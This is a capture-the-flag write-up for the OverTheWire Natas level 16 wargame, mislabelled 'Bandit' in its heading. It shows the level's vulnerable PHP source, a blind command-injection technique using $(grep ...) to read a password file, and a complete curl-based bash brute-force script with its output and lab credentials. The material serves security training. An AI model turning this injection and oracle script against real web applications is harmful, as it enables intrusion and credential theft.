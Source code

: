 # BANDIT LEVEL 16

```
http://overthewire.org/wargames/natas/natas16.html
```

```
Username: natas16
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
URL:      http://natas16.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

#### CODE INSPECTION

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Okay, so we are revisiting the `grep $pattern dictionary.txt` scenario except
this time it seems like they are filtering out several additional characters
such as ```, `'`, and `"` in addition to surrounding the query pattern `$key`
with quotes..

```
grep -i "$key" dictionary.txt
```

What command injection can we come up with that would allow us to view the
contents of `/etc/natas_webpass/natas17`?

#### COMMAND INJECTION

One clue is the filter screens for the character ```, which allows us to
perform "command substituion".

```
http://www.gnu.org/software/bash/manual/bashref.html#Command-Substitution
```

Lucky for us, the alternate syntax of command substitution is `$(command)`
which is not filtered out.  This allows us to run our own arbitrary commands
within the `grep` pattern search. The challenge here is that whatever command
we inject, its output will be used as the `grep` pattern for `dictionary.txt`
and not outputed to us.

What we can do is infer what the password is if we search for a known word
like "zebras". If we submit that as the search string, it would return the
string "zebras" since that word would be in `dictionary.txt`.  However, if we
submitted a "grep of /etc/natas_webpass/natas17" + "zebras" as the search
string, if our grep of the password file failed.. then our search string would
remain "zebras" and would still succeed.  But if our grep of the password file
succeeded, then the search string would be "grep_string"+"zebras" which would
fail (since presumably that should not exist in `dictionary.txt`). Therefore
we can infer that if our query fails, then we have successfully guess a letter
of the password.

#### BRUTE FORCE

```
$ cat script.sh
#! /bin/bash

rawurlencode() {
  local string="${1}"
  local strlen=${#string}
  local encoded=""
  local pos c o

  for (( pos=0 ; pos<strlen ; pos++ )); do
     c=${string:$pos:1}
     case "$c" in
        [-_.~a-zA-Z0-9] ) o="${c}" ;;
        * )               printf -v o '%%%02x' "'$c"
     esac
     encoded+="${o}"
  done
  echo "${encoded}"    # You can either set a return variable (FASTER)
  REPLY="${encoded}"   #+or echo the result (EASIER)... or both... :p
}

export PASSWORD

# we assume the password length is 32
for i in {0..31}
do

  # loop through all valid possible characters
  for CH in {{0..9},{a..z},{A..Z}}
  do
    PASSWORD[$i]=$CH
    TESTSTRING=$(printf "%s" "${PASSWORD[@]}")

    GREP_BEG="$( rawurlencode '$(grep -E ^' )"
    GREP_END="$( rawurlencode '.* /etc/natas_webpass/natas17)' )"

    # the last echo'ed $TESTSTRING would represent the working usr/passwd combo
    echo "PASSWORD: $TESTSTRING"

    curl --silent \
      "http://natas16.natas.labs.overthewire.org/?needle=${GREP_BEG}${TESTSTRING}${GREP_END}zebras&submit=Search" \
      -H 'Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==' \
      | grep "zebras" >/dev/null

    if [ $? -ne 0 ]; then
      # if the string "zebras" does NOT exist, that means our passwd file grep
      # returned some output which would have tainted our zebra pattern causing
      # the new pattern not to be found in "dictionary.txt" and we can move onto
      #  the next character
      break;
    fi
  done

done
```

```
$ ./script.sh
PASSWORD: 0
PASSWORD: 1
PASSWORD: 2
PASSWORD: 3
PASSWORD: 4
PASSWORD: 5
PASSWORD: 6
PASSWORD: 7
PASSWORD: 8
PASSWORD: 80
PASSWORD: 81

<...>

PASSWORD: 8Ps3G
PASSWORD: 8Ps3H
PASSWORD: 8Ps3H0
PASSWORD: 8Ps3H00
PASSWORD: 8Ps3H01
PASSWORD: 8Ps3H02
PASSWORD: 8Ps3H03

<...>

PASSWORD: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9ct
PASSWORD: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cu
PASSWORD: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cv
PASSWORD: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
